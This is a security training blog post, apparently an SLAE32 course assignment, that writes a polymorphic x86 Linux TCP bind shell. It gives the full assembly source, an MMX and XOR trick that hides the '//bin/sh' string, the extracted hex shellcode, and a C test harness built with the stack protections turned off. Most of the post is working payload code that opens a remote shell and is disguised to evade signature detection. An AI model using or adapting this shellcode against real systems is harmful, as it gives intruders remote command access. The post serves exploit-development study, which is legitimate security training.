 ```yaml
---
title: SLAE32 Assignment 6 -- Polymorphic MMX TCP Bind Shellcode
date: 2019-9-15
layout: single
classes: wide
header:
  teaser: /assets/images/SLAE32.jpg
tags:
  - Bind
  - Shell
  - polymorphic
  - MMX
  - Assembly
  - Code
  - SLAE
  - Linux
  - x86
  - Shellcoding
  - Shellcode
--- 
```

![](/assets/images/SLAE32.jpg)

For the sixth assignment in the SLAE32 Exam, we needed to create 3 polymorphic shellcodes; from existing shellcodes at shell-storm.org. A polymorphic shellcode means that it uses different instructions to deliver the same payload.  
For example, all of these instructions will result in the same action within a program.
```nasm
mov eax, 0x00000000      ; Clears the EAX Register
xor eax, eax             ; Clears the EAX Register
sub eax, eax             ; Clears the EAX Register
```
The first shellcode I modified was "tcpbindshell (108 bytes)", created by Russell Willis.  
This shellcode can be found at http://shell-storm.org/shellcode/files/shellcode-847.php.  

The original shellcode length was 108 bytes. Our assignment required that our polymorphic version of the shellcode to not exceed 150% of the original value. The final length of this polymorphic shellcode is 144 bytes.  
To push the filename string "//bin/sh" onto the stack, I used the MMX registers.   
The code I added / modified is indented.

```nasm
; Original_Length: 108 bytes	Final_Length: 144 bytes
global _start
_start:
	xor	ecx,ecx		; Makes the ECX Register 0
	mul	ecx			; ECX*EAX. Result is stored in EDX:EAX. This clears the EDX and EAX.
	mov ebx, eax	; sets the EBX register to 0
	push byte 0x66
	pop edi			; save this for the other functions
	mov eax, edi	; eax is now 0x66 which is the socketcall SYScal
	inc ebx			; EBX = 1; needed to create the socket()
	push edx
push   0x6
	push ebx	 	; push 0x1 to the stack 
push   0x2
mov    ecx,esp
int    0x80
	xchg esi,eax

	mov eax, edi	; EAX = 0x66 used for socketcall SYSCAL
	inc ebx			; EBX = 0x2
push   edx
push word 0x697a	; port TCP 
push   bx
mov    ecx,esp
push   0x10
push   ecx
push   esi
mov    ecx,esp
int    0x80

	mov eax, edi	; EAX = 0x66 used for socketcall SYSCAL
	inc ebx
	inc ebx			; EBX = 0x4
push   0x1
push   esi
mov    ecx,esp
int    0x80
	mov eax, edi	; EAX = 0x66 used for socketcall SYSCAL
	inc ebx
push   edx
push   edx
push   esi
mov    ecx,esp
int    0x80

; setup dup2 loop
mov    ebx,eax
xor    ecx,ecx
mov    cl,0x3

; dup2
dup2Loop:
	dec ecx
mov    al,0x3f
int    0x80
jne    dup2Loop

push   edx
	mov edx, 0xffffffff             ; will be used to XOR the MM0 Register to result in "//bin/sh"
    mov eax, 0x978cd091             ; "n/sh" XOR'd with 0xffffffff
        ;   mov eax, 0x68732f6e             ; "n/sh"
    movd mm0, eax
    psllq mm0, 32                   ; shift the mm0 register left by 4 bytes
    mov ebx, 0x969dd0d0             ; "//bi" XOR'd with 0xffffffff
        ;   mov ebx, 0x69622f2f             ; "//bi" 
    movd mm1, ebx
    paddb mm0, mm1                  ; now mm0 hold the 8 byte XOR'd "//bin/sh"
    movd mm1, edx                   ; mm1 is now 0xffffffff
    psllq mm1, 32                   ; mm1 is now 0xffffffff00000000
    movd mm2, edx                   ; mm2 us biw 0xffffffff
    paddb mm1, mm2                  ; mm1 is now 0xffffffffffffffff
    pxor mm0, mm1                   ; XOR's mm0 with mm1 and saves the results in mm0
    sub esp, 8                      ; Decrement the stack 8 bytes
    movq qword [esp], mm0           ; push "//bin/sh" from mm0 to the top of the stack

xor    eax,eax
mov    ebx,esp
push   eax
push   ebx
mov    ecx,esp
push   eax
mov    edx,esp
mov    al,0xb
int    0x80

```  

I compiled and linked the shellcode. Then I used object dump to extract the hex.  
```console
root# nasm -f elf32 mmxTcpBindShell.nasm -o mmxTcpBindShell.o
root# ld mmxTcpBindShell.o -o mmxTcpBindShell
root# objdump -d tcpBindShell  | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s | sed 's/^/"/' | sed 's/$/"/g'
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80"
``` 
I loaded it into our shellcode testing program to ensure it still worked when injected into a host program.  
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc9\xf7\xe1\x89\xc3\x6a\x66\x5f\x89\xf8\x43\x52\x6a\x06\x53\x6a\x02\x89\xe1\xcd\x80\x96\x89\xf8\x43\x52\x66\x68\x7a\x69\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x89\xf8\x43\x43\x6a\x01\x56\x89\xe1\xcd\x80\x89\xf8\x43\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\x49\xb0\x3f\xcd\x80\x75\xf9\x52\xba\xff\xff\xff\xff\xb8\x91\xd0\x8c\x97\x0f\x6e\xc0\x0f\x73\xf0\x20\xbb\xd0\xd0\x9d\x96\x0f\x6e\xcb\x0f\xfc\xc1\x0f\x6e\xca\x0f\x73\xf1\x20\x0f\x6e\xd2\x0f\xfc\xca\x0f\xef\xc1\x83\xec\x08\x0f\x7f\x04\x24\x31\xc0\x89\xe3\x50\x53\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80";

main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
I then compiled the C program.  
```console
gcc -fno-stack-protector -z execstack -o shellcode shellcode.c
```




